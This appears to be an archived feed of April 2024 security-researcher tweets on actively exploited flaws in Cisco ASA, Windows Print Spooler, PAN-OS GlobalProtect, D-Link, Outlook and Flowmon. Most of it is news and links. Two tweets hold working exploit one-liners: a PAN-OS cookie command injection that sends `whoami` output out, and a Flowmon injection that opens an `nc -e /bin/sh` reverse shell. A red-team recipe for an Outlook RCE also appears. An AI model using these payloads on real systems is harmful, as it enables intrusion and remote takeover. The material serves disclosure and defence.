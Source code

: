 # wdormann
**https://twitter.com/wdormann/status/1783201177770852484 _at 2024-04-24, 18:27:45_**
<blockquote>
I get the impression that VPN endpoints are kind of important.
Attackers are exploiting Cisco ASA devices in the wild.
Cisco has fixed CVE-2024-20353 and CVE-2024-20359, but they have yet to discover the initial entry point vulnerability. 😬
https://t.co/pgwIRyVBuV https://t.co/zD4uPHHFpR
</blockquote>

* https://blog.talosintelligence.com/arcanedoor-new-espionage-focused-campaign-found-targeting-perimeter-network-devices/

<table><tr>
<td><img src="pictures/07648fa65d64aa7ddf12e9c8fc346a52ac0347921630bbd295f38bdbf051c855.jpg" alt="07648fa65d64aa7ddf12e9c8fc346a52ac0347921630bbd295f38bdbf051c855.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>270</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1782442803911426253 _at 2024-04-22, 16:14:15_**
<blockquote>
Microsoft has identified longstanding activity by the Russian-based threat actor we track as Forest Blizzard using a custom tool we call GooseEgg to exploit CVE-2022-38028 in the Windows Print Spooler service to elevate permissions and steal credentials: https://t.co/YKHvxqJa61
</blockquote>

* https://msft.it/6014YG3oI

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>165</code></td>
<td>Favorites: <code>348</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1780775859550662955 _at 2024-04-18, 01:50:24_**
<blockquote>
CVE-2024-3400 PAN-OS: OS Command Injection Vulnerability in GlobalProtect  Path Traversal -&gt; File Write -&gt; OS Command Injection  POC: curl https://host/global-protect/login.esp -k -H 'Cookie: SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/a`curl${IFS}uip/?u=$(whoami)`'
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1780390122145411188 _at 2024-04-17, 00:17:37_**
<blockquote>
Re CVE-2024-3400, please don't lock your detections to endpoint. I'm able to trigger the file write against /.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1779930136382689681 _at 2024-04-15, 17:49:48_**
<blockquote>
🚨 We're tracking new 0-day RCE CVE-2024-3400 in Palo Alto Networks PAN-OS 10.2-11.1 allowing unauthenticated root access in certain configs, check out the blog for more details. https://t.co/o9FV8HGah3
</blockquote>

* https://www.greynoise.io/blog/cve-2024-3400-command-injection-vulnerability-palo-alto-networks-pan-os

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1778996658845724854 _at 2024-04-13, 04:00:30_**
<blockquote>
Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400)

172.233.228[.]93

https://t.co/a3Rf1zgIZT https://t.co/6sU71axOWT
</blockquote>

* https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/

<table><tr>
<td><img src="pictures/695a8d21bdef23c0e7bd24d2afb9f448fc2522d6fd668bce3ab19c5b77a4a111.jpg" alt="695a8d21bdef23c0e7bd24d2afb9f448fc2522d6fd668bce3ab19c5b77a4a111.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>166</code></td>
<td>Favorites: <code>462</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1778778881014583447 _at 2024-04-12, 13:35:08_**
<blockquote>
Your usual reminder that "let's run things as root because it's easier" is *not* limited only to discount routers you get from the big-box store.
Palo Alto CVE-2024-3400 https://t.co/HVzcGOQx7d https://t.co/EFDLGHuUjy
</blockquote>

* https://security.paloaltonetworks.com/CVE-2024-3400

<table><tr>
<td><img src="pictures/f625fd2ac8fda67bfaedbda361332c2efe3a03da562621054c61eaa8d12f231a.jpg" alt="f625fd2ac8fda67bfaedbda361332c2efe3a03da562621054c61eaa8d12f231a.jpg"></td>
<td><img src="pictures/75fa6ad6a87c7f16ccb111d50c9672843f19577c8e909f21d1b6106da60f9685.jpg" alt="75fa6ad6a87c7f16ccb111d50c9672843f19577c8e909f21d1b6106da60f9685.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>272</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1778705893116227676 _at 2024-04-12, 08:45:06_**
<blockquote>
If you thought the D-Link "backdoor" (CVE-2024-3272, CVE-2024-3273) was new, please see this writeup from 2018. https://t.co/QE96NQG9VS
</blockquote>

* https://www.exploit-db.com/exploits/43434

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1778421129193136338 _at 2024-04-11, 13:53:33_**
<blockquote>
🏭 We've tested the new RCE in Microsoft Outlook (CVE-2024-21378) in a production environment and confirm it works well!

A brief instruction for red teams:

1. Compile our enhanced DLL 👉 https://t.co/cQWF8KM8vL
2. Use NetSPI's ruler and wait!

No back connect required!

🔥 📐📏 https://t.co/aVDyT4d4B9
</blockquote>

* https://gist.github.com/Homer28/7f3559ff993e2598d0ceefbaece1f97f

<table><tr>
<td><img src="pictures/21413f9b81bb00285ea2ae5685e913fd2d5607f6d86bed057d8827e24ac66616.jpg" alt="21413f9b81bb00285ea2ae5685e913fd2d5607f6d86bed057d8827e24ac66616.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>344</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1777977522140950640 _at 2024-04-10, 08:30:49_**
<blockquote>
Progress Kemp Flowmon CVE-2024-2389:

curl -kv 'https://192.168.56.12/service.pdfs/confluence?lang=en&amp;file=`nc+-e+/bin/sh+192.168.56.1+4444`'
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

